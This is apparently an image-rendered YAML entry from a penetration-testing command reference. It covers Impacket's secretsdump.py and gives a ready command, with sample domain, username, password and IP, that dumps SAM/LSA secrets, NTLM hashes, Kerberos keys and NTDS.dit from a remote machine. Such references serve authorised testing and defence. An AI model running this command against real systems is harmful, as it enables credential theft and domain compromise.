 ```yaml
---
title: |
  
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to dump all secrets from the target machine using the previously mentioned techniques.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Password: Welkom01!

command: |
  python3 secretsdump.py test.local/test:Welkom01!@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

